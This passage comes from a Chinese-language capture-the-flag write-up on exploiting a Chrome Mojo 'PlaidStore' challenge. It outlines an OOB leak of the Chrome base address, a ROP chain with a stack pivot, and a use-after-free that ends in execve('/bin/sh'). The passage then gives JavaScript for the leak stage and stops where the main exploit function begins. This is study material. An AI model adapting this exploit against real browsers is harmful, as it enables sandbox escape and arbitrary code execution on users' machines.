 ### 最终利用

有了对上面两个漏洞的理解，最终利用也就呼之欲出了，代码如下所示，主要流程是：

* 在子`frame`中利用`oob`漏洞泄露出程序基址以及`render_frame_host`对象地址；其中程序基址用于构造`rop`链,`render_frame_host`对象地址用于后续`uaf`漏洞利用；
* 准备`rop`链，因为跳转的时候`rax`是虚表指针且可控，因此可以将它指向上面泄露的`render_frame_host`对象地址同时在偏移为`0x160`的地方部署`stack pivot gadget`即`xchg rsp, rax`这样的`gadget`，然后就是常规的`rop`链。
* 触发`uaf`，成功控制程序流，最后执行`execve("/bin/sh")`或`execve("/bin/gnome-calculator")`。

```js
function AddFrame()
{
    let frame = document.createElement("iframe");
    frame.srcdoc =
        `<script src="mojo/public/js/mojo_bindings_lite.js"></script>
            <script src="third_party/blink/public/mojom/plaidstore/plaidstore.mojom-lite.js"></script>
        <script>
            async function Leak()
            {
                // oob read to leak chrome base addr and render_frame_host pointer
                let plaidStorePtrList = [];
                for(let i=0; i<0x200; i++) {
                    let p = blink.mojom.PlaidStore.getRemote(true);
                    await(p.storeData("xxxxx", new Uint8Array(0x28).fill(0x41)));
                    plaidStorePtrList.push(p);
                }
                let p = plaidStorePtrList[0];
                let leakData = (await p.getData("xxxxx", 0x2000)).data
                let u8 = new Uint8Array(leakData)
                let u64 = new BigInt64Array(u8.buffer);
                let vtableAddr = 0;
                let renderFrameHostAddr = 0;
                for(let i=0x28/8; i<u64.length; i++) {
                    let highAddr = u64[i]&BigInt(0xf00000000000)
                    let lowAddr = u64[i]&BigInt(0x000000000fff)
                    if((highAddr == BigInt(0x500000000000)) && lowAddr == BigInt(0x7a0)) {
                        vtableAddr = u64[i];
                        renderFrameHostAddr = u64[i+1];
                        break;
                    }
                }

                if(vtableAddr == 0 ) {
                    window.chromeBaseAddr = 0;
                    return;
                }
                chromeBaseAddr = vtableAddr - BigInt(0x9fb67a0);
                window.chromeBaseAddr = chromeBaseAddr;
                window.renderFrameHostAddr = renderFrameHostAddr;
                window.plaidStorePtrList = plaidStorePtrList;
                return;
            }
        Leak();
        </script>
        `;
      document.body.appendChild(frame);
    return frame;
}
async function pwn()
{
    let frame = AddFrame();
    frame.contentWindow.addEventListener("DOMContentLoaded", async () => {
```